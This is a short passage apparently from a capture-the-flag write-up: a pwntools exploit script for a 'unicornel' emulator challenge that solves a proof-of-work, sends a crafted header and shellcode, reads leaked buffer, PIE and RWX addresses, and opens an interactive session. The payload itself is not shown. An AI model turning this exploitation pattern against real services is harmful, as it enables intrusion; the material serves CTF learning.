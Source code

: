 ```python

p.recvuntil(b' solve ')
p.recvuntil(b' solve ')
to_solve = p.recvline().strip().decode()
print(f"{to_solve}")

sol = os.popen(f"python3 kctf-pow.py solve {to_solve} 2>/dev/null").read() #kctf-pow solver
print(sol)
p.sendlineafter(b"Solution? ", sol.encode())

p.recvuntil(b' unicornel!')

# Given format of header for the emulator
header = flat(
    p32(unicorn.UC_ARCH_X86),
    p32(unicorn.UC_MODE_64),
    p64(0x1000), p64(0x1000),          
    b'\0' * 3 * 16,              
    p16(len(code)),              
    p8(1)                        
).ljust(80, b'\0')

p.sendline(b'')
p.recvuntil(b'DATA_START')
p.send(header)
p.recvuntil(b'CODE_START')
p.send(code)
p.recvuntil('pid 0\n')

leaked_buf_addr = int(p.recvline().strip().decode())
print(f'{hex(leaked_buf_addr) = }')
leaked_pie_base = int(p.recvline().strip().decode())
print(f'{hex(leaked_pie_base) = }')
leaked_rwx_base = int(p.recvline().strip().decode())
print(f'{hex(leaked_rwx_base) = }')

p.interactive()
```

![](./final-exp.png)
